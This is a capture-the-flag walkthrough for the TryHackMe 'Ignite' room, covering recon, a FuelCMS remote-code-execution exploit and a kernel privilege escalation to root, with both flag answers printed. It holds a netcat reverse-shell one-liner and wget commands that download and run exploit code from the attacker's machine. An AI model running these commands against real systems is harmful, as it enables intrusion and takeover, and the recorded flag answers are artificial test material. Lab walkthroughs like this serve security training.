

## Index

1. [Setup](#setup)
2. [Reconnaissance](#reconnaissance)
3. [Gaining Access](#gaining-access)
4. [Privilege Escalation](#privilege-escalation)

## Setup 

We first need to connect to the tryhackme VPN server. You can get more information regarding this by visiting the [Access](https://tryhackme.com/access) page.

I'll be using `openvpn` to connect to the server. Here's the command:

```
$ sudo openvpn --config NovusEdge.ovpn
```

## Reconnaissance

Running some basic `nmap` scans:

```shell-session
$ sudo nmap -sS -vv -p- -oN nmap_stealth_scan.txt 10.10.97.204
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 63

$ sudo nmap -sV -p80 -vv -oN nmap_service_scan.txt 10.10.97.204
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))

$ sudo nmap -sC --script=vuln -vv -oN nmap_vuln_scan.txt 10.10.97.204
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 63
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
| http-enum: 
|   /robots.txt: Robots file
|   /0/: Potentially interesting folder
|   /home/: Potentially interesting folder
|_  /index/: Potentially interesting folder
|_http-litespeed-sourcecode-download: Request with null byte did not work. This web server might not be vulnerable
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-jsonp-detection: Couldn't find any JSONP endpoints.
| http-slowloris-check: 
|   VULNERABLE:
|   Slowloris DOS attack
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|       Slowloris tries to keep many connections to the target web server open and hold
|       them open as long as possible.  It accomplishes this by opening connections to
|       the target web server and sending a partial request. By doing so, it starves
|       the http server's resources causing Denial Of Service.
|       
|     Disclosure date: 2009-09-17
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
|_      http://ha.ckers.org/slowloris/
|_http-wordpress-users: [Error] Wordpress installation was not found. We couldn't find wp-login.php
|_http-csrf: Couldn't find any CSRF vulnerabilities.
```

Now, time for some directory enumeration/traversal stuff:
```shell-session
$ gobuster dir -t 64 -x txt,xml,php -u http://10.10.53.109/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -o gobuster_dirlist2_3.txt

$ cat gobuster_dirlist2_3.txt | grep "Status: 200"                        
/index.php            (Status: 200) [Size: 16595]
/index                (Status: 200) [Size: 16595]
/home                 (Status: 200) [Size: 16595]
/0                    (Status: 200) [Size: 16595]
/robots.txt           (Status: 200) [Size: 30]
```

The `robots.txt` file is exposed, let's check what it contains:
```txt
## curl http://10.10.53.109/robots.txt
User-agent: *
Disallow: /fuel/
```

Hmm, it seems like the dev is trying to block access to the `/fuel/` directory. The home page of the website at `http://TARGET_IP/` shows us the following:



Checking ExploitDB for some existing exploits for _FuelCMS version 1.4_ shows us 3 different options for gaining initial access, SQL injections, RCE exploits and a CSRF vulnerability that's in version 1.5. I'll be using [this](https://www.exploit-db.com/exploits/50477), based on [CVE-2018-16763](###### [2018-16763](https://nvd.nist.gov/vuln/detail/CVE-2018-16763)) for this writeup.

## Gaining Access

```shell-session
$ python3 50477.py -u http://10.10.53.109/        
[+]Connecting...
Enter Command $rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.14.45.44 4444 >/tmp/f


# On our machine (in a different session):
$ nc -nvlp 4444         
listening on [any] 4444 ...
connect to [10.14.45.44] from (UNKNOWN) [10.10.53.109] 44732
sh: 0: can't access tty; job control turned off

$ python -c "import pty; pty.spawn('/bin/bash')"      
www-data@ubuntu:/var/www/html$ whoami
whoami
www-data
www-data@ubuntu:/var/www/html$ ls
ls
README.md  assets  composer.json  contributing.md  fuel  index.php  robots.txt

# Lets alter the robots file so that we can access the fuel directory and its contents...
www-data@ubuntu:/var/www/html$ echo "User-agent: *" >  robots.txt
www-data@ubuntu:/var/www/html$ echo "Allow: /" >> robots.txt
www-data@ubuntu:/var/www/html$ cat robots.txt
User-agent: *
Allow: /

# and... now the flag :)
www-data@ubuntu:/$ cd /home/www-data
www-data@ubuntu:/home/www-data$ ls
flag.txt
www-data@ubuntu:/home/www-data$ cat flag.txt
6470e394cbf6dab6a91682cc8585059b
```

> User flag
> Answer: `6470e394cbf6dab6a91682cc8585059b`

## Privilege Escalation

```
$ www-data@ubuntu:/home/www-data$ uname -a
Linux ubuntu 4.15.0-45-generic #48~16.04.1-Ubuntu SMP Tue Jan 29 18:03:48 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux

www-data@ubuntu:/home/www-data$ gcc -v
...
gcc version 5.4.0 20160609 (Ubuntu 5.4.0-6ubuntu1~16.04.11) 

# On our machine:
$ python3 -m http.server 8080

# On the target machine shell session:
www-data@ubuntu:/home/www-data$ cd /tmp
www-data@ubuntu:/tmp$ wget http://10.14.45.44:8080/linpeas.sh
www-data@ubuntu:/tmp$ sh linpeas.sh
...


╔══════════╣ CVEs Check
Vulnerable to CVE-2021-4034                                                                                                                                                                   

Potentially Vulnerable to CVE-2022-2588
...

```

I once again searched ExploitDB and came across [this exploit](https://www.exploit-db.com/exploits/50689) that allows privilege escalation. 

```

www-data@ubuntu:/tmp$ wget http://10.14.45.44:8080/evil-so.c
www-data@ubuntu:/tmp$ wget http://10.14.45.44:8080/exploit.c
www-data@ubuntu:/tmp$ wget http://10.14.45.44:8080/Makefile
www-data@ubuntu:/tmp$ make
...
www-data@ubuntu:/tmp$ ./exploit
# whoami
root
# cd /root
# ls
root.txt
# cat root.txt
b9bbcb33e11b80be759c4e844862482d
```

> Root flag
> Answer: `b9bbcb33e11b80be759c4e844862482d`

## Conclusion
If this writeup helps, please consider following me on github (https://github.com/NovusEdge) and/or dropping a star on the repository: https://github.com/NovusEdge/thm-writeups

---

- Author: Aliasgar Khimani
- Room: [Ignite by DarkStar7471](https://tryhackme.com/room/ignite)